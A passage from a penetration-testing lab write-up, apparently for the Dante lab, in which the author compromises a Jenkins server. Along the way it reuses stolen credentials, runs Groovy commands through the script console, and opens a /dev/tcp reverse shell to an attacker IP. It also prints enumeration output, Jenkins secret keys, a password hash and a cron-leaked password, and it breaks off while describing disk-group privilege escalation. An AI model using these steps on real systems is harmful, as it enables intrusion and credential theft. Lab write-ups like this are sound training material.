Checking for TPC services we can see that only HTTP servcies are available:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ./nmap 172.16.1.19
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 02:21 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:12 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 172.16.1.19
Host is up (0.00010s latency).
Not shown: 1180 closed ports
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-alt
Nmap done: 1 IP address (1 host up) scanned in 13.06 seconds
```

And about the UDP services:

```
root@DANTE-WEB-NIX01:/tmp# ./nmap -sU -F 172.16.1.19

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-02 07:15 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 22.06% done; ETC: 07:15 (0:00:28 remaining)
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 38.10% done; ETC: 07:16 (0:00:52 remaining)
Stats: 0:02:10 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 99.99% done; ETC: 07:17 (0:00:00 remaining)
Nmap scan report for 172.16.1.19
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00037s latency).
Not shown: 118 closed ports
PORT     STATE         SERVICE
5353/udp open|filtered mdns
MAC Address: 00:50:56:B9:49:38 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 135.36 seconds
```

No hidden services that are relevant for us are running on UDP channnel, I will move forward with specif enumeraiton of the open services on TCP.

* * *

## HTTP:

Checking manually on the service 80 seems like it's void:



I will run a direcory search as well for possible hidden folder and files:



Nothing got out of it we can move forward with last open service.

* * *

## HTTP 8080:

Surfing manually to the webpage we are in front of a Jenkins istance:



Now we don't have the credentials so i will start by getting the running version:

```
msf6 auxiliary(scanner/http/jenkins_enum) > run
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.19:8080  ...  OK

[+] 172.16.1.19:8080      - Jenkins Version 2.240
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.19:8080  ...  OK
[*] /jenkins/script restricted (403)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.19:8080  ...  OK
[*] /jenkins/view/All/newJob restricted (403)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.19:8080  ...  OK
[*] /jenkins/asynchPeople/ restricted (403)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.19:8080  ...  OK
[*] /jenkins/systemInfo restricted (403)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[proxychains] DLL init: proxychains-ng 4.16
```

Knowing that it's a 2.240.

If we run a web directory search the only one I see out of order is:

```
[16:23:12] 200 -   71B  - /robots.txt
```

Nothing interesting:



I can't seems find a way in, I will have to come back when I have some creds.

Now we have a list of credentials and it's passwords we obtained from that excell backup file from DANTE-DC01 under "Katwamba's" home folder and I want to use those to check if we can login with one of those users to Jenkins. If we managed to do it then we can easily get a revshell into system via Scripts..



Now that we have prepared the exploit tool, we can launch and wait if it works it will stop as soon it finds a valid userame. Unfortunately none of those credentials worked out actually.

I want to try to use those credentials I exported from LSASS and secrets on DC01:







Unfortunately all the users failed somehow I guess we need to come back after we find out a potential user from the FTP machine.

* * *

## Attacking Jenkins:

We found out some credentials saved in a Bat script file under Administrator's document folder, so using those we can login into Jenkins portal:



And on first login we can find another flag:



We know our user is some sort of Administrator, so we can try to use /script to invoke a revshell and catch it via NC.



Now here I had to revert back to Dyn SSH because Metasploit performances were awfull. And now we can try to execute a command with something similar:

```
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```



And with this we should be able to gain a revshell with something similar:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.107/7777;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



And we have a connection to the machine!



* * *

## PE:

We have 2 possible usernames but none of them have a hidden flag, only lou have a .ssh folder but nothing more I will upload Linpeas.sh and check for possible hidden informations on how to gain root.



I will writedown only the interesting stuff relevant to PE:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                                                                                          
                               ╚═══════════════════╝                                                                                                                                                                                                         
OS: Linux version 5.4.0-48-generic (buildd@lcy01-amd64-010) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020
User & Groups: uid=126(jenkins) gid=133(jenkins) groups=133(jenkins)
Hostname: DANTE-NIX07
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                                      
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                                                                                                                           
                                                                                                                                               

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                                              
Sudo version 1.8.31   

══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                                                                                          
                              ╚═════════════════════╝                                                                                                                                                                                                        
╔══════════╣ Hostname, hosts and DNS
DANTE-NIX07                                                                                                                                                                                                                                                  
127.0.0.1       localhost danteblog.htb dante-nix07
127.0.1.1       ubuntu
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                                                                                          
link-local 169.254.0.0
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.1.19  netmask 255.255.255.0  broadcast 172.16.1.255
        inet6 fe80::250:56ff:feb9:3af1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:3a:f1  txqueuelen 1000  (Ethernet)
        RX packets 7836460  bytes 797883351 (797.8 MB)
        RX errors 0  dropped 136  overruns 0  frame 0
        TX packets 6530612  bytes 1939877435 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 44960  bytes 3522405 (3.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 44960  bytes 3522405 (3.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                                
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                                                            
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::33060                :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      1242/java           
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -          


╔══════════╣ Analyzing Jenkins Files (limit 70)
-rw-r--r-- 1 jenkins jenkins 256 Jun 10  2020 /var/lib/jenkins/secrets/master.key                                                                                                                                                                            
98e888dc9c2923e6085df09a9d31565ac8a7191f9996b8853fb7c7db3efde22e3bdc2a70e3c9d96090ba12a7bf5b1e6c26f1494ee2bcddf782013b59433dc7d12aa5aa735a0e56026d6b5dff1af6a3b3d898e68128b448a3b41c881f765dde9f0a3cd803ac5dc572b85f880e1294aee4ef192b8dd19de62adeb7e058794e4d7f                                                                                                                                                                                                                                                          

-rw-r--r-- 1 jenkins jenkins 272 Jun 10  2020 /var/lib/jenkins/secrets/hudson.util.Secret


-rw-r--r-- 1 jenkins jenkins 1642 Sep  4 20:56 /var/lib/jenkins/config.xml
-rw-r--r-- 1 jenkins jenkins 545 Jul 11  2020 /var/lib/jenkins/jobs/FLAG_HERE/config.xml
-rw-r--r-- 1 jenkins jenkins 2407 Jul 11  2020 /var/lib/jenkins/users/Admin129834765_8448738326952835448/config.xml
      <passwordHash>#jbcrypt:$2a$10$6V7P8sZtxo.que7K0EutyOWwICYH7zEg.7wbYR6wIAXNo4Dp5jAju</passwordHash>


╔══════════╣ Files inside /var/lib/jenkins (limit 20)
total 124                                                                                                                                                                                                                                                    
drwxr-xr-x 17 jenkins jenkins 4096 Sep  4 20:56 .
drwxr-xr-x 75 root    root    4096 Apr 13  2021 ..
-rw-------  1 jenkins jenkins  521 Sep  2  2020 .bash_history
drwxr-xr-x  5 jenkins jenkins 4096 Jun 10  2020 .cache
-rw-r--r--  1 jenkins jenkins  475 Jun 10  2020 com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml
drwxr-xr-x  4 jenkins jenkins 4096 Jun 10  2020 .config
-rw-r--r--  1 jenkins jenkins 1642 Sep  4 20:56 config.xml
drwx------  3 jenkins jenkins 4096 Sep  5 07:25 .gnupg
drwxr-xr-x  3 jenkins jenkins 4096 Jun 10  2020 .groovy
-rw-r--r--  1 jenkins jenkins  156 Sep  4 20:56 hudson.model.UpdateCenter.xml
-rw-r--r--  1 jenkins jenkins  370 Jun 10  2020 hudson.plugins.git.GitTool.xml
-rw-------  1 jenkins jenkins 1712 Jun 10  2020 identity.key.enc
drwxr-xr-x  3 jenkins jenkins 4096 Jun 10  2020 .java
-rw-r--r--  1 jenkins jenkins    5 Jun 10  2020 jenkins.install.InstallUtil.lastExecVersion
-rw-r--r--  1 jenkins jenkins    5 Jun 10  2020 jenkins.install.UpgradeWizard.state
-rw-r--r--  1 jenkins jenkins  179 Jun 10  2020 jenkins.model.JenkinsLocationConfiguration.xml
-rw-r--r--  1 jenkins jenkins  171 Jun 10  2020 jenkins.telemetry.Correlator.xml
drwxr-xr-x  3 jenkins jenkins 4096 Jun 10  2020 jobs
-rw-r--r--  1 jenkins jenkins    0 Sep  4 20:56 .lastStarted
drwxr-xr-x  3 jenkins jenkins 4096 Jun 10  2020 .local
drwxr-xr-x  3 jenkins jenkins 4096 Jun 10  2020 logs
-rw-r--r--  1 jenkins jenkins  907 Sep  4 20:56 nodeMonitors.xml


╔══════════╣ Files inside others home (limit 20)
/home/ian/.lesshst                                                                                                                                                                                                                                           
/home/ian/.bashrc
/home/ian/.profile
/home/ian/.bash_logout
/home/lou/.sudo_as_admin_successful
/home/lou/.config/user-dirs.locale
/home/lou/.config/monitors.xml~
/home/lou/.config/gnome-initial-setup-done
/home/lou/.config/gedit/accels
/home/lou/.config/user-dirs.dirs
/home/lou/.config/monitors.xml
/home/lou/.mozilla/firefox/o2qxu3bx.default-release/formhistory.sqlite.corrupt
/home/lou/.mozilla/firefox/o2qxu3bx.default-release/sessionCheckpoints.json
/home/lou/.mozilla/firefox/o2qxu3bx.default-release/prefs.js
/home/lou/.mozilla/firefox/installs.ini
/home/lou/.mozilla/firefox/profiles.ini
/home/lou/.bashrc
/home/lou/.profile
/home/lou/.bash_logout
/home/lou/.local/share/gnome-settings-daemon/input-sources-converted
```

And checking those foldes under /var/bin/jenkins



We can read Jenkins secret key:

```
cat secret.key
be246d951ae2ab20beaff7faf8a0eb83fb77e6b9354933d83f533bd55cd38b4fjenkins@DANTE-NIX07:~$
```

Next I will run pspy and we can see find a password from a cron job:

```
23/09/05 07:39:01 CMD: UID=0     PID=52335  | /bin/bash mysql -u ian -p VPN123ZXC 
2023/09/05 07:39:01 CMD: UID=0     PID=52334  | /bin/sh -c /bin/bash mysql -u ian -p VPN123ZXC 
2023/09/05 07:39:04 CMD: UID=0     PID=52348  | /lib/systemd/systemd-udevd 
2023/09/05 07:39:04 CMD: UID=0     PID=52347  | /lib/systemd/systemd-udevd
```

And next seems like we can login on local MYSQL DB as seen in PSPY:

```
ian@DANTE-NIX07:/tmp$ mysql -u ian -p
mysql -u ian -p
Enter password: VPN123ZXC

ERROR 1045 (28000): Access denied for user 'ian'@'localhost' (using password: YES)
ian@DANTE-NIX07:/tmp$
```

Now there is 2 way to escalate this, one the unintended with SAMBARON Edit 2, the other is to check again with Linpeas:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                          
                               ╚═══════════════════╝                                                                                                                                         
OS: Linux version 5.4.0-48-generic (buildd@lcy01-amd64-010) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020
User & Groups: uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)
Hostname: DANTE-NIX07
Writable folder: /dev/shm


═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                          
                               ╚═══════════════════╝                                                                                                                                         
OS: Linux version 5.4.0-48-generic (buildd@lcy01-amd64-010) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020
User & Groups: uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)
Hostname: DANTE-NIX07
Writable folder: /dev/shm
```

Now here IAN is part of the DISK group which is basically almost like root because you get RW access basically everywhere. And we have also LOU which is part of some ADM group which most likely have sudo rights.

First we find where is "/" mounted:

```
ian@DANTE-NIX07:/tmp$ df -h
df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           391M  1.9M  389M   1% /run
/dev/sda5        14G  8.0G  5.2G  61% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/loop1      128K  128K     0 100% /snap/bare/5
/dev/loop0       56M   56M     0 100% /snap/core18/1997
/dev/loop2       62M   62M     0 100% /snap/core20/1242
/dev/loop3      219M  219M     0 100% /snap/gnome-3-34-1804/66
/dev/loop4       56M   56M     0 100% /snap/core18/2253
/dev/loop5      248M  248M     0 100% /snap/gnome-3-38-2004/87
/dev/loop6      219M  219M     0 100% /snap/gnome-3-34-1804/77
/dev/loop7       43M   43M     0 100% /snap/snapd/14066
/dev/loop8       66M   66M     0 100% /snap/gtk-common-themes/1519
/dev/loop9       52M   52M     0 100% /snap/snap-store/518
/dev/loop10      55M   55M     0 100% /snap/snap-store/558
/dev/loop11      65M   65M     0 100% /snap/gtk-common-themes/1514
/dev/loop12      33M   33M     0 100% /snap/snapd/11588
/dev/sda1       511M  4.0K  511M   1% /boot/efi
